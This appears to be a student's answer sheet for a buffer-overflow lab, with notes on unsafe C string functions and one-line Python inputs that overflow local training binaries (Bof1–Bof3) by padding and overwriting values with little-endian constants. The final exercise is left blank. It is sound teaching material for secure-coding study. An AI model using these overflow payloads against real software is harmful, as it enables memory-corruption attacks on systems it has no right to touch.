 # Presentation + Variation 1
## Exercise 3a
```
strcat() --- Not safe, vulnerable to overflow attacks.
gets() -- Very dangerous, please never use.
strncat() --- Better version of strcat()
fgets() --- The safe version of gets()
sprintf() --- Does not check buffer boundaries. Overflows are possible.
puts() --- Looks like gets(), but not particularly dangerous. Automatically appends newline.
printf() --- Can be dangerous, be aware of format string vulnerabilities when used.
fputs() --- The newer version of puts(). No new line.
```

## Exercise 3b
`python -c 'print 30*"A"' |./Bof1`s

# Endianness, Variation 2
## Exercise 3c
`python -c 'print 10*"A" + "\xbe\xba\xfe\xca"' |./Bof2`

## Exercise 3d
`python -c 'print 28*"A" +  "\xef\xbe\xad\xde"' | ./Bof3`

# Instruction pointer, Pro
## Exercise 3e
